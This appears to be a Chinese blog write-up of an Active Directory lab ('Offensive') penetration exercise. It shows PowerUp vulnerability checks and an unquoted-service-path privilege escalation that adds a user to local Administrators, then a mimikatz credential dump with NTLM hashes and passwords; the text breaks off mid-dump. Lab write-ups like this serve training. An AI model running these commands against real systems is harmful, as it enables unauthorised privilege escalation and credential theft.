









# Offensive-AD域靶场渗透

<div style="text-align: right;">

date: "2023-09-20"

</div>

## 参考文章

1. [域渗透之Offensive · Yoga7xm’s Blog](https://yoga7xm.top/2019/12/06/offensive/)
2. [Offensive域环境靶场渗透](https://wh0ale.github.io/2019/12/16/Offensive%E5%9F%9F%E7%8E%AF%E5%A2%83%E9%9D%B6%E5%9C%BA%E6%B8%97%E9%80%8F/)
3. [Powrshell 提权框架-Powerup](https://evi1cg.me/archives/Powerup.html)
4. [内网渗透--本机提权 · Yoga7xm’s Blog](https://yoga7xm.top/2019/04/09/IPentest-admin/)
5. [安全工具 | PowerSploit使用介绍-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1822427)
6. [Error 1069: The SQL service did not start due to a logon failure. (Legacy KB ID CNC TS21931 )](https://knowledge.broadcom.com/external/article/52260/error-1069-the-sql-service-did-not-start.html)
7. [MSSQL GetShell方法 - 先知社区](https://xz.aliyun.com/t/8603#toc-7)

## 靶场目标

要求获取域控权限，且只能使用客户机提供的工具以及powershell，已经拥有192.168.159.10的一个用户权限，工具已经放在主机内。


## 相关信息
靶场信息
```
192.168.159.10(offensive-client/win10)
192.168.159.20(offensive-sql-server/windows server 2016)  
192.168.159.200(Domain Controller/windows server 2016)
```
账号信息
```
Machine Offensive-User - Alice/Password1 OR Passw0rd!
Machine Offensive-SQLServer1 - dbadmin:Password! OR Passw0rd!
Machine Offensive-DC - Administrator:Password@ OR Passw0rd@
```
## 渗透测试

目前拥有的权限


给出的工具如下所示


相关工具说明：
1. [HeidiSQL](https://www.heidisql.com/)：一款数据库连接工具，支持MySQL、MsSQL、PostgreSQL、SQLite等数据库
2. [kerberoast](https://github.com/nidem/kerberoast)：Kerberoast 是一系列用于攻击 MS Kerberos 实现的工具
3. mimikatz
4. [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)：对SQLServer进行测试的一个红队工具
5. [hfs.exe](https://github.com/rejetto/hfs)：共享本机磁盘上的文件，使用HTTP进行传输
6. [Invoke-Ninjacopy](https://github.com/PowerShellMafia/PowerSploit)：通过读取原始卷并解析NTFS结构，从NTFS分区卷复制文件
7. [Invoke-PowerShellTcpOneLine_443.ps1](https://github.com/samratashok/nishang/tree/master)：交互式 PowerShell 反向连接或绑定 shell
8. [Invoke-PowerShellTcpOneLine_4444.ps1](https://github.com/samratashok/nishang/tree/master)：交互式 PowerShell 反向连接或绑定 shell
9. [powercat.ps1](https://github.com/besimorhino/powercat)：可以视为nc的PowerShell版本，可与nc连接
10. [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit)：寻找服务器脆弱点进行提权工具，非内核提权
11. [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master)：攻击域的工具

## 提权-寻找脆弱点

首先使用`PowerUp.ps1`脆弱性检查工具调用其中的全部检查模块进行检查，记得把Windows defender关了。
```
PS C:\Users\Alice\Desktop\tools> powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"

[*] Running Invoke-AllChecks


[*] Checking if user is in a local group with administrative privileges...


[*] Checking for unquoted service paths...


ServiceName   : VulnService
Path          : C:\Program Files\Vuln Service\VulnService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'VulnService' -Path <HijackPath>

[*] Checking service executable and argument permissions...


[*] Checking service permissions...


[*] Checking %PATH% for potentially hijackable .dll locations...


HijackablePath : C:\Users\Alice\AppData\Local\Microsoft\WindowsApps\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Users\Alice\AppData\Local\Microsoft\WindowsApps\\wlbsctrl.dll'
                 -Command '...'

HijackablePath : C:\Python27\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Python27\\wlbsctrl.dll' -Command '...'

HijackablePath : C:\Python27\Tools\Scripts\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Python27\Tools\Scripts\\wlbsctrl.dll' -Command '...'

[*] Checking for AlwaysInstallElevated registry key...

[*] Checking for Autologon credentials in registry...

[*] Checking for vulnerable registry autoruns and configs...

Key            : HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\bginfo
Path           : C:\BGinfo\Bginfo.exe /accepteula /ic:\bginfo\bgconfig.bgi /timer:0
ModifiableFile : C:\BGinfo\Bginfo.exe

[*] Checking for vulnerable schtask files/configs...


[*] Checking for unattended install files...

UnattendPath : C:\Windows\Panther\Unattend.xml


[*] Checking for encrypted web.config strings...

[*] Checking for encrypted application pool and virtual directory passwords...
```
得到了如下脆弱性信息：

1. 未加引号的服务路径

```
ServiceName   : VulnService
Path          : C:\Program Files\Vuln Service\VulnService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'VulnService' -Path <HijackPath>
```

2. 可能可以被dll劫持的位置

```
HijackablePath : C:\Users\Alice\AppData\Local\Microsoft\WindowsApps\AbuseFunction：Write-HijackDll -OutputFile 'C:\Users\Alice\AppData\Local\Microsoft\WindowsApps\\wlbsctrl.dll'

C:\Python27\AbuseFunction：Write-HijackDll -OutputFile 'C:\Python27\\wlbsctrl.dll'

HijackablePath : C:\Python27\Tools\Scripts\AbuseFunction : Write-HijackDll -OutputFile 'C:\Python27\Tools\Scripts\\wlbsctrl.dll'
```

3. 容易被攻击的注册表配置

```
HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\bginfo
路径：C:\BGinfo\Bginfo.exe /accepteula /ic:\bginfo\bgconfig.bgi /timer:0
可修改文件：C:\BGinfo\Bginfo.exe
```

3. 无人值守的安装文件

```
UnattendPath : C:\Windows\Panther\Unattend.xml
```
## 提权-尝试提权
未加引号的服务路径提权：这是利用没有有正确处理引用的全路径名来造成提权。
```
PS C:\Users\Alice\Desktop\tools> icacls "C:\Program Files\Vuln Service\VulnService.exe.bak"
C:\Program Files\Vuln Service\VulnService.exe.bak NT AUTHORITY\SYSTEM:(I)(F)
                                                  BUILTIN\Administrators:(I)(F)
                                                  BUILTIN\Users:(I)(RX)
                                                  offensive\Alice:(I)(F)
                                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```
说明：F表示完全控制，M表示修改，CI表示从属容器将继承访问控制项。，也就是此处`offensive\Alice`完全控制该文件。
```
PS C:\Users\Alice\Desktop\tools> powershell -exec bypass -Command "Import-Module .\PowerUp.ps1;Write-ServiceBinary -ServiceName 'VulnService' -UserName 'offensive\Alice' -Password 'admin@123'"

ServiceName ServicePath Command
----------- ----------- -------
VulnService service.exe net localgroup Administrators offensive\Alice /add
```
Write-ServiceBinary：用于预编译 C# 服务的可执行文件，默认创建一个管理员账户，通过 Command 定制自己的命令。
```
PS C:\Users\Alice\Desktop\tools> dir


    Directory: C:\Users\Alice\Desktop\tools


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        8/31/2019   3:00 AM                HeidiSQL
d-----        8/31/2019   8:39 PM                kerberoast
d-----        8/31/2019   6:13 AM                mimikatz_trunk
d-----        8/31/2019   3:01 AM                PowerUpSQL
-a----        1/19/2019  10:07 AM        2171904 hfs.exe
-a----        4/20/2019   1:11 AM         443638 Invoke-NinjaCopy.ps1
-a----        4/14/2019   9:10 AM            505 Invoke-PowerShellTcpOneLine_443.ps1
-a----        4/14/2019  10:04 AM            506 Invoke-PowerShellTcpOneLine_4444.ps1
-a----        3/14/2019   9:15 AM           5441 mimikatz_trunk.zip
-a----        3/16/2019   6:20 AM          37641 powercat.ps1
-a----        8/31/2019   3:22 AM         494860 PowerUp.ps1
-a----         4/6/2019   2:05 AM         750994 powerview.ps1
-a----        9/20/2023   4:22 AM          22016 service.exe
```
运行完上面的命令后发现文件夹内多了一个`service.exe`的文件，将其重命名替换掉`VulnService.exe`，然后启动VulnService服务即可。
```
cp service.exe "C:\Program Files\Vuln Service\VulnService.exe"
sc qc VulnService
```
这是未添加之前的administrators管理员组的成员
```
PS C:\Users\Alice\Desktop\tools> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
offensive\Domain Admins
The command completed successfully.
```
重启后查看administrators管理员组的成员，发现本地管理员组中已经多了一个Alice用户了。
```
PS C:\Users\Alice\Desktop> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
offensive\Alice
offensive\Domain Admins
The command completed successfully.
```
抓取密码
```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 284856 (00000000:000458b8)
Session           : Interactive from 1
User Name         : Alice
Domain            : offensive
Logon Server      : DC
Logon Time        : 9/20/2023 4:27:31 AM
SID               : S-1-5-21-1187620287-4058297830-2395299116-1103
        msv :
         [00000003] Primary
         * Username : Alice
         * Domain   : offensive
         * NTLM     : 579da618cfbfa85247acf1f800a280a4
         * SHA1     : 39f572eceeaa2174e87750b52071582fc7f13118
         * DPAPI    : bb95569e3ccfd1dd9f5d04413eaf0289
        tspkg :
        wdigest :
         * Username : Alice
         * Domain   : offensive
         * Password : admin@123
        kerberos :
         * Username : Alice
         * Domain   : OFFENSIVE.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 284815 (00000000:0004588f)
Session           : Interactive from 1
User Name         : Alice
Domain            : offensive
Logon Server      : DC
Logon Time        : 9/20/2023 4:27:31 AM
SID               : S-1-5-21-1187620287-4058297830-2395299116-1103
        msv :
         [00000003] Primary
         * Username : Alice
         * Domain   : offensive
         * NTLM     : 579da618cfbfa85247acf1f800a280a4
         * SHA1     : 39f572eceeaa2174e87750b52071582fc7f13118
         * DPAPI    : bb95569e3ccfd1dd9f5d04413eaf0289
        tspkg :
        wdigest :
         * Username : Alice
         * Domain   : offensive
         * Password : admin@123
        kerberos :
         * Username : Alice
         * Domain   : OFFENSIVE.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 9/20/2023 4:27:17 AM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 53300 (00000000:0000d034)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 9/20/2023 4:27:17 AM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : CLIENT1$
         * Domain   : offensive
         * NTLM     : c80cdf882f4efbfbfd9ef36f20e3e145
         * SHA1     : e0ad452a6852e39cc970ee6a75d2d887b713dc01
        tspkg :
        wdigest :
         * Username : CLIENT1$
         * Domain   : offensive
         * Password : bf 47 38 6a 82 05 16 94 94 3d 9c ec 87 70 f5 75 06 cb ee e5 b5 1d 79 e4 8e 71 c5 7c e8 e2 f1 3b d1 6b 19 92 cf a1 80 19 ec 49 93 8d ed 2d e4 3a 1e 2d e9 b9 2f 32 b5 92 da de e1 72 cc 15 3b c6 7b c6 f4 3a 68 5c 37 5c f2 dd 73 52 61 47 bc 7f 87 08 16 77 2e 3b 5a 99 bf 4a 8d 3d 09 a4 00 5d 54 b3 e1 6e bb 23 1e 80 dd 0f 4b cb 0c 7a fa 11 e2 bc 50 05 dc 54 55 3a c3 6f 98 7b 59 28 5e d5 bd fd 6d 98 25 af 20 aa b9 3d 4d 6e c2 27 f5 05 98 11 46 c9 53 44 c5 b0 68 a2 7b 8a a8 7a 3f bb f7 6a 09 72 97 53 ce 8f fd f3 31 94 5e 77 b1 be a7 e4 66 e5 8b 2f 39 3f d5 f8 fe 59 32 ba fc df f7 0c 64 14 fd b4 1c 3b 3e db 41 d3 7a 1c bd db 64 9c 91 e7 98 e2 04 83 be 10 8d 72 c9 cf 42 3c 56 59 3e 06 53 a2 bb 7c 18 db a9 12 cb f6 e7 09
        kerberos :
         * Username : CLIENT1$
         * Domain   : offensive.local
         * Password : bf 47 38 6a 82 05 16 94 94 3d 9c ec 87 70 f5 75 06 cb ee e5 b5 1d 79 e4 8e 71 c5 7c e8 e2 f1 3b d1 6b 19 92 cf a1 80 19 ec 49 93 8d ed 2d e4 3a 1e 2d e9 b9 2f 32 b5 92 da de e1 72 cc 15 3b c6 7b c6 f4 3a 68 5c 37 5c f2 dd 73 52 61 47 bc 7f 87 08 16 77 2e 3b 5a 99 bf 4a 8d 3d 09 a4 00 5d 54 b3 e1 6e bb 23 1e 80 dd 0f 4b cb 0c 7a fa 11 e2 bc 50 05 dc 54 55 3a c3 6f 98 7b 59 28 5e d5 bd fd 6d 98 25 af 20 aa b9 3d 4d 6e c2 27 f5 05 98 11 46 c9 53 44 c5 b0 68 a2 7b 8a a8 7a 3f bb f7 6a 09 72 97 53 ce 8f fd f3 31 94 5e 77 b1 be a7 e4 66 e5 8b 2f 39 3f d5 f8 fe 59 32 ba fc df f7 0c 64 14 fd b4 1c 3b 3e db 41 d3 7a 1c bd db 64 9c 91 e7 98 e2 04 83 be 10 8d 72 c9 cf 42 3c 56 59 3e 06 53 a2 bb 7c 18 db a9 12 cb f6 e7 09
        ssp :
        credman :

Authentication Id : 0 ; 53248 (00000000:0000d000)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 9/20/2023 4:27:17 AM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : CLIENT1$
         * Domain   : offensive
         * NTLM     : c80cdf882f4efbfbfd9ef36f20e3e145
         * SHA1     : e0ad452a6852e39cc970ee6a75d2d887b713dc01
        tspkg :
        wdigest :
         * Username : CLIENT1$
         * Domain   : offensive
         * Password : bf 47 38 6a 82 05 16 94 94 3d 9c ec 87 70 f5 75 06 cb ee e5 b5 1d 79 e4 8e 71 c5 7c e8 e2 f1 3b d1 6b 19 92 cf a1 80 19 ec 49 93 8d ed 2d e4 3a 1e 2d e9 b9 2f 32 b5 92 da de e1 72 cc 15 3b c6 7b c6 f4 3a 68 5c 37 5c f2 dd 73 52 61 47 bc 7f 87 08 16 77 2e 3b 5a 99 bf 4a 8d 3d 09 a4 00 5d 54 b3 e1 6e bb 23 1e 80 dd 0f 4b cb 0c 7a fa 11 e2 bc 50 05 dc 54 55 3a c3 6f 98 7b 59 28 5e d5 bd fd 6d 98 25 af 20 aa b9 3d 4d 6e c2 27 f5 05 98 11 46 c9 53 44 c5 b0 68 a2 7b 8a a8 7a 3f bb f7 6a 09 72 97 53 ce 8f fd f3 31 94 5e 77 b1 be a7 e4 66 e5 8b 2f 39 3f d5 f8 fe 59 32 ba fc df f7 0c 64 14 fd b4 1c 3b 3e db 41 d3 7a 1c bd db 64 9c 91 e7 98 e2 04 83 be 10 8d 72 c9 cf 42 3c 56 59 3e 06 53 a2 bb 7c 18 db a9 12 cb f6 e7 09
        kerberos :
         * Username : CLIENT1$
         * Domain   : offensive.local
         * Password : bf 47 38 6a 82 05 16 94 94 3d 9c ec 87 70 f5 75 06 cb ee e5 b5 1d 79 e4 8e 71 c5 7c e8 e2 f1 3b d1 6b 19 92 cf a1 80 19 ec 49 93 8d ed 2d e4 3a 1e 2d e9 b9 2f 32 b5 92 da de e1 72 cc 15 3b c6 7b c6 f4 3a 68 5c 37 5c f2 dd 73 52 61 47 bc 7f 87 08 16 77 2e 3b 5a 99 bf 4a 8d 3d 09 a4 00 5d 54 b3 e1 6e bb 23 1e 80 dd 0f 4b cb 0c 7a fa 11 e2 bc 50 05 dc 54 55 3a c3 6f 98 7b 59 28 5e d5 bd fd 6d 98 25 af 20 aa b9 3d 4d 6e c2 27 f5 05 98 11 46 c9 53 44 c5 b0 68 a2 7b 8a a8 7a 3f bb f7 6a 09 72 97 53 ce 8f fd f3 31 94 5e 77 b1 be a7 e4 66 e5 8b 2f 39 3f d5 f8 fe 59 32 ba fc df f7 0c 64 14 fd b4 1c 3b 3e db 41 d3 7a 1c bd db 64 9c 91 e7 98 e2 04 83 be 10 8d 72 c9 cf 42 3c 56 59 3e 06 53 a2 bb 7c 18 db a9 12 cb f6 e7 09
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : CLIENT1$
Domain            : offensive
Logon Server      : (null)
Logon Time        : 9/20/2023 4:27:17 AM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : CLIENT1$
         * Domain   : offensive
         * NTLM     : c80cdf882f4efbfbfd9ef36f20e3e145
         * SHA1     : e0ad452a6852e39cc970ee6a75d2d887b713dc01
        tspkg :
        wdigest :
         * Username : CLIENT1$
         * Domain   : offensive
         * Password : bf 47 38 6a 82 05 16 94 94 3d 9c ec 87 70 f5 75 06 cb ee e5 b5 1d 79 e4 8e 71 c5 7c e8 e2 f1 3b d1 6b 19 92 cf a1 80 19 ec 49 93 8d ed 2d e4 3a 1e 2d e9 b9 2f 32 b5 92 da de e1 72 cc 15 3b c6 7b c6 f4 3a 68 5c 37 5c f2 dd 73 52 61 47 bc 7f 87 08 16 77 2e 3b 5a 99 bf 4a 8d 3d 09 a4 00 5d 54 b3 e1 6e bb 23 1e 80 dd 0f 4b cb 0c 7a fa 11 e2 bc 50 05 dc 54 55 3a c3 6f 98 7b 59 28 5e d5 bd fd 6d 98 25 af 20 aa b9 3d 4d 6e c2 27 f5 05 98 11 46 c9 53 44 c5 b0 68 a2 7b 8a a8 7a 3f bb f7 6a 09 72 97 53 ce 8f fd f3 31 94 5e 77 b1 be a7 e4 66 e5 8b 2f 39 3f d5 f8 fe 59 32 ba fc df f7 0c 64 14 fd b4 1c 3b 3e db 41 d3 7a 1c bd db 64 9c 91 e7 98 e2 04 83 be 10 8d 72 c9 cf 42 3c 56 59 3e 06 53 a2 bb 7c 18 db a9 12 cb f6 e7 09
        kerberos :
         * Username : client1$
         * Domain   : OFFENSIVE.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 32452 (00000000:00007ec4)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 9/20/2023 4:27:17 AM
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : CLIENT1$
         * Domain   : offensive
         * NTLM     : c80cdf882f4efbfbfd9ef36f20e3e145
         * SHA1     : e0ad452a6852e39cc970ee6a75d2d887b713dc01
        tspkg :
        wdigest :
         * Username : CLIENT1$
         * Domain   : offensive
